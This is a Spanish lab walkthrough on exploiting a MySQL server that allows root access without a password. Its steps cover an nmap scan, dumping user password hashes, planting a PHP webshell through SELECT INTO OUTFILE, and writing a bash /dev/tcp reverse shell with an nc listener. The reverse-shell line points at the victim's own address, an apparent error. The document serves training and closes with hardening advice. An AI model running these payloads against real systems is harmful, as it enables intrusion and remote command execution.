 # 💾 Servicio: MySQL – Puerto 3306.

## 🎯 1. Objetivo del laboratorio.

Aprovecharemos una mala configuración del servicio MySQL que nos permite:

- Acceder al servicio sin contraseña como el usuario root.
- Leer archivos sensibles del sistema (/etc/passwd, etc).
- Cargar una **reverse shell** escribiendo directamente en archivos del sistema (/var/www/html/shell.php).
- Ganar acceso remoto a la máquina víctima, incluso sin necesidad de vulnerabilidades activas.

Este laboratorio demuestra cómo una mala configuración por defecto (como permitir acceso root sin contraseña) puede ser igual de peligrosa que una vulnerabilidad explotable.

## 🔧 2. ¿Qué es MySQL?.

MySQL es un sistema de bases de datos muy utilizado en aplicaciones web. Escucha por defecto en el puerto 3306.
Cuando no está bien asegurado, nos permite:

- Iniciar sesión como root sin contraseña.
- Interactuar directamente con el sistema de archivos desde SQL (SELECT, INTO, OUTFILE...).
- Ejecutar comandos del sistema operativo (UDFs o plugins inseguros).

## 🛠️ 3. Explotación paso a paso.

### 🔍 Paso 1: Escaneo con Nmap

```bash
nmap -sV -p 3306 192.168.56.102
```

| Puerto   | Estado | Protocolo | Servicio | Versión                  |
|----------|--------|-----------|----------|---------------------------|
| 3306/tcp | open   | TCP       | MySQL    | MySQL 5.0.51a-3ubuntu5    |

### 🔐 Paso 2: Intentar acceso con MySQL sin contraseña

```bash
mysql -h 192.168.56.102 -u root
```

⚠️ Si nos encontramos con el siguiente error:

ERROR 2026 (HY000): TLS/SSL error: wrong version number

Significa que el cliente de MySQL está intentando usar TLS/SSL para conectarse al servidor, pero el servidor no lo soporta al ser ver una versión antigua.

✅ Cómo solucionarlo.

Existen dos formas:

#### 🔧 Opción 1: Desactivar SSL en el cliente (la más rápida).

Usa la opción --ssl-mode=DISABLED al conectarte:

```bash
mysql -h 192.168.56.102 -u root --ssl-mode=DISABLED
```
⚠️ Es totalmente normal desactivarlo si estás trabajando en entornos locales de laboratorio (y sobre todo con versiones antiguas como esta).

Si cuando realizamos este paso, nos encontramos con el siguiente error:

mysql: unknown variable 'ssl-mode=DISABLED'

Indica que la versión del cliente de mysql no reconoce la opción --ssl-mode, algo que ocurre cuando se usa un cliente mysql tradicional (MySQL 5.x o antiguo) o un wrapper como mariadb-client.

✅ Solución alternativa: Usa --skip-ssl

Nos podemos intentar conectarnos desactivando SSL con esta opción compatible con versiones más antiguas del cliente:

```bash
mysql -h 192.168.56.102 -u root --skip-ssl
```
Esto hace exactamente lo mismo (ignora la conexión TLS), pero con una opción reconocida por más versiones del cliente.

✅ Otra alternativa: Especificar protocolo TCP (forzar que no use socket)

Algunos sistemas modernos de Kali o Parrot usan **MariaDB** por defecto, que cambia algunas cosas. Podemos probar:

```bash
mysql -h 192.168.56.102 -u root --protocol=TCP
```

#### 🛠 Opción 2 (menos recomendable): Usar un cliente de versión antigua.

Se podría instalar una versión antigua del cliente de MySQL, como la 5.0 o 5.1 (más acorde al servidor), pero no es necesario para entornos de pruebas si puedes usar --ssl-mode=DISABLED.

### 🔎 Paso 3: Ver bases de datos y privilegios.

Una vez que conseguimos estar dentro del cliente interactivo de MySQL:

```sql
SHOW DATABASES;
SELECT user, host, password FROM mysql.user;
```

🔎 Esto nos muestra todos los usuarios de MySQL y si tienen contraseña (campo password vacío).

### 💾 Paso 4: Ver si podemos escribir archivos en el sistema

Intengamos crear una **webshell** si el servicio web está en la misma máquina.

```sql
USE mysql;
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php";
```
✅ Si esto funciona, ¡acabas de subir una backdoor vía MySQL!

### 🌐 Paso 5: Probar la shell PHP

Abrimos el navegador:

```bash
http://192.168.56.102/shell.php?cmd=whoami
```

### 🧨 Paso 6 (opcional): Obtener una reverse shell

En lugar del system($_GET['cmd']), podemos escribir directamente una reverse shell en PHP:

```sql
SELECT "<?php system('bash -c \"bash -i >& /dev/tcp/192.168.56.102/4444 0>&1\"'); ?>" 
INTO OUTFILE "/var/www/html/rev.php";
```

Ahora:

```bash
nc -lvnp 4444
```

Y luego visitamos en el navegador:

```arduino
http://192.168.56.102/rev.php
```

🎉

¡Tendrás una shell directa desde Apache a tu Kali!

## 🧠 4. Consideraciones de seguridad

- Permitir conexiones root sin contraseña es un fallo grave.
- Permitir que SELECT ... INTO OUTFILE funcione en directorios críticos puede llevar a ejecución remota de comandos.
- Las bases de datos deben escucharse solo en localhost, o protegerse con firewall.

